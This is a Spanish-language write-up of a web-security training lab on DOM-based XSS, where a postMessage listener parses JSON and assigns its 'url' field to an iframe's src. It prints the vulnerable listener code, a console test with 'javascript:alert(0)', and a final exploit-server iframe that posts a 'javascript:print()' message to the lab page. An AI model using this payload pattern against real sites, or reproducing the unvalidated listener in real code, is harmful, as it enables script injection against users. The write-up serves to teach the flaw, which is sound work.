




# 🌐 DOM XSS mediante Web Messages y JSON.parse

## 📄 Descripción del laboratorio

Este laboratorio es vulnerable a **DOM-Based XSS** debido a un uso inseguro de Web Messages combinado con el uso de `JSON.parse`.

La aplicación recibe mensajes mediante `postMessage`, los interpreta como JSON y, dependiendo de su contenido, modifica dinámicamente elementos del DOM.

El problema radica en que:

* No se valida el origen del mensaje (`event.origin`)
* Se parsea directamente `event.data` con `JSON.parse`
* Se asigna el valor de `url` directamente al atributo `src` de un iframe

Esto permite a un atacante enviar un JSON malicioso que incluya un esquema `javascript:` y ejecutar código en el navegador de la víctima.

El objetivo es conseguir que se invoque la función `print()` mediante un mensaje malicioso enviado desde el Exploit Server.

 

## 📚 Teoría

### 📌 **DOM XSS mediante JSON.parse y Web Messages**

Ejemplo vulnerable del laboratorio:

```javascript
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
    }
}, false);
```

Este código introduce varios problemas críticos:

**1. No valida el origen del mensaje**\
No se comprueba `event.origin`, por lo que cualquier dominio puede enviar mensajes.

**2. Uso inseguro de JSON.parse**\
Se parsea directamente `event.data` sin validación previa, confiando completamente en los datos del usuario.

**3. Asignación directa a src de iframe**\
El valor `d.url` se asigna directamente a `iframe.src`, lo que permite:

* Cargar URLs arbitrarias
* Ejecutar esquemas peligrosos como `javascript:`

**Conclusión clave:**\
Si una aplicación:

* Usa `postMessage`
* Parsea datos sin validación
* Inserta URLs en `src`

➡️ El XSS es directo mediante `javascript:`.

 

## 📝 Práctica

### 1️⃣ **Analizar el código vulnerable**

Revisamos el código fuente y encontramos:

```javascript
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

<br>

Confirmamos que:

* Usa `addEventListener("message")`
* Parsea `event.data` con `JSON.parse`
* Usa el campo `url` directamente en `iframe.src`
* No valida `event.origin`

 

### 2️⃣ **Prueba manual**

Desde la consola probamos:

```javascript
postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:alert(0)\"}");
```

<br>

🟢 **Resultado:** se ejecuta `alert(0)`

Esto confirma que el campo `url` es inyectable.

 

### 3️⃣ **Construir el payload**

Creamos un JSON malicioso:

```javascript
{"type": "load-channel", "url": "javascript:print()"}
```

 

### 4️⃣ **Explotación mediante Exploit Server**

Creamos una página que:

* Carga la página vulnerable en un `<iframe>`
* Envía automáticamente el mensaje JSON

Payload final:

```html
<iframe 
  src="https://ID-DEL-LABORATORIO/" 
  onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:print()\"}","*")'>
</iframe>
```

<br>
 

### 5️⃣ **Enviar el exploit**

* Guardamos el exploit en el Exploit Server
* Pulsamos **Store**
* Pulsamos **Deliver exploit to victim**

Cuando la víctima accede:

* Se carga el iframe
* Se envía el JSON malicioso
* La aplicación lo parsea
* Se asigna `javascript:print()` a `iframe.src`
* Se ejecuta el código


